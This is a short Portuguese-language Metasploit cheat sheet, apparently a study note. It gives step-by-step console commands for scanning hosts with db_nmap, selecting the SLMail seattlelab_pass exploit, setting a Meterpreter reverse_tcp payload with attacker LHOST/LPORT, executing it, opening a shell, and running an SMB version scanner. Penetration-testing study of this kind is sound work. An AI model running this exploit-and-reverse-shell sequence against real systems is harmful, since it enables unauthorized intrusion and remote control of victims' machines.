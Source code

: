 # MetaSploit Framework

Ferramenta desenvolvida pela rapid7.com para auxiliar na criação e utilização de exploits.

Iniciando MSF:
service postgresql start
msfconsole

Comando de ajuda:
msf > help

Verificando a conexão com o banco de dados:
msf > db_status

Escaneamento de alvo salvando as informações no DB:
msf > db_nmap -A 172.16.1.4

Importando arquivo XML do NMAP:
nmap -v -A 172.16.1.5 -oX host5.xml
msf > db_import host5.xml

Listagem dos hosts:
msf > hosts

Verificando vulnerabilidade nos hosts:
msf > vulns

Listagem de serviços:
msf > services

Buscando exploit:
msf > search slmail

Usando exploit:
msf > use exploit/windows/pop3/seattlelab_pass

Ver informações do exploit:
msf exploit(seattlelab_pass) > info

Setando parâmetros no exploit:
msf exploit(seattlelab_pass) > show options
msf exploit(seattlelab_pass) > set RHOST 172.16.1.4
msf exploit(seattlelab_pass) > show options

Verificando payloads disponíveis:
msf exploit(seattlelab_pass) > show payloads

Setando payload para ser utilizado:
msf exploit(seattlelab_pass) > set payload windows/meterpreter/reverse_tcp
msf exploit(seattlelab_pass) > show options
msf exploit(seattlelab_pass) > set LHOST 172.20.0.2
msf exploit(seattlelab_pass) > set LPORT 4444
msf exploit(seattlelab_pass) > show options

Executando exploit:
msf exploit(seattlelab_pass) > exploit
meterpreter > ipconfig

Verificando comandos no meterpreter:
meterpreter > help

Abrindo o shell:
meterpreter > shell

Exibindo módulos auxiliares:
msf > show auxiliary

Utilizando um módulo auxiliar:
msf > use auxiliary/scanner/smb/smb_version
msf > show options
msf > set RHOSTS 172.16.1.5
msf > run
